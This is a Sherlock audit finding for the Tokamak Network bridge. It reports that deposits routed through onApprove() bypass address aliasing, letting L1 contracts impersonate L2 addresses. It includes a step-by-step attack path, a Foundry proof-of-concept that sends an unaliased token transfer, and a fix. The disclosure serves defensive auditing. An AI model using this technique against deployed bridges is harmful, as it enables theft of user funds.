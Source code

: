 # Issue H-1: L1 contract can evade aliasing, spoofing unowned L2 address 

Source: https://github.com/sherlock-audit/2024-08-tokamak-network-judging/issues/39 

## Found by 
0x416, 0xlrivo, KingNFT, haxagon, obront
### Summary

A key property of the Optimism bridge is that all contract addresses are aliased. This is to avoid a contract on L1 to be able to send messages as the same address on L2, because often these contracts will have different owners. However, using the `onApprove()` function, this aliasing can be evaded, giving L1 contracts this power.

### Root Cause

When `depositTransaction()` is called on the Optimism Portal, we use [the following check](https://github.com/sherlock-audit/2024-08-tokamak-network/blob/main/tokamak-thanos/packages/tokamak/contracts-bedrock/src/L1/OptimismPortal2.sol#L548-L549) to determine whether to alias the `from` address:
```solidity
address from =
    ((_sender != tx.origin) && !_isOnApproveTrigger) ? AddressAliasHelper.applyL1ToL2Alias(_sender) : _sender;
```
As we can see, this check does not alias the address is `_isOnApproveTrigger = true`.

This flag is set whenever the deposit is triggered via a call to `onApprove()`. However, it is entirely possible for a contract to use this flow, and therefore avoid being aliased.

### Internal Preconditions

None

### External Preconditions

None

### Attack Path

1. A contract on L1 is owned by a different user than the contract address on L2. This is typical, for example, with multisigs or safes that deployed using CREATE.
2. It wants to send a message on behalf of the L2 contract. For example, it may want to call `transfer()` on an ERC20 to steal their tokens.
3. It calls `approveAndCall()` on the Native Token on L1, including the message it wants to send on L2.
4. This message is passed along to the Optimism Portal's `onApprove()` function, which sets the `_isOnApproveTrigger` flag to true, and doesn't alias the address.
5. The result is that the L2 message comes `from` the unaliased L1 address, and arbitrary messages (including token transfers) can be performed on L2.

### Impact

L1 contracts can send arbitrary messages from their own address on L2, allowing them to steal funds from the owners of the L2 contracts.

### PoC

The following standalone test can be used to demonstrate this vulnerability:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { stdStorage, StdStorage, Test, console } from "forge-std/Test.sol";
import { OptimismPortal2 } from "../src/L1/OptimismPortal2.sol";
import { Constants } from "../src/libraries/Constants.sol";
import { L2NativeToken } from "../src/L1/L2NativeToken.sol";
import { ResourceMetering } from "../src/L1/ResourceMetering.sol";

contract MaliciousSafe {}

contract DummySystemConfig {
    address public nativeTokenAddress;

    constructor(address nativeToken) {
        nativeTokenAddress = nativeToken;
    }

    function resourceConfig() external view returns (ResourceMetering.ResourceConfig memory) {
        return Constants.DEFAULT_RESOURCE_CONFIG();
    }
}

contract POC is Test {
    using stdStorage for StdStorage;

    OptimismPortal2 portal;
    L2NativeToken token;

    event TransactionDeposited(address indexed from, address indexed to, uint256 indexed version, bytes opaqueData);

    function setUp() public {
        token = new L2NativeToken();
        DummySystemConfig config = new DummySystemConfig(address(token));

        portal = new OptimismPortal2(0, 0);
        stdstore.target(address(portal)).sig("systemConfig()").checked_write(address(config));

    }

    function testZach_noAlias() public {
        // we are sending from a safe, which isn't owned on L2
        address from = address(new MaliciousSafe());
        vm.startPrank(from);
        token.faucet(1);

        // let's make some transaction data
        // for example, transfer our addresses USDC on L2 to another address
        address to = makeAddr("L2USDC");
        uint value = 0;
        uint32 gasLimit = 1_000_000;
        bytes memory message = abi.encodeWithSignature("transfer(address,uint256)", address(1), 100e18);
        bytes memory onApproveData = abi.encodePacked(to, value, gasLimit, message);

        // confirm that the deposit transaction is:
        // from: from (non aliased)
        // to: L2USDC
        vm.expectEmit(true, true, false, false);
        emit TransactionDeposited(from, to, 0, bytes(""));

        // now we use approve and call to send the deposit transaction
        token.approveAndCall(address(portal), 1, onApproveData);
    }
}
```

### Mitigation

The `_sender != tx.origin` check is correct, even in the case that the call came via `onApprove()`, so the additional logic can be removed.

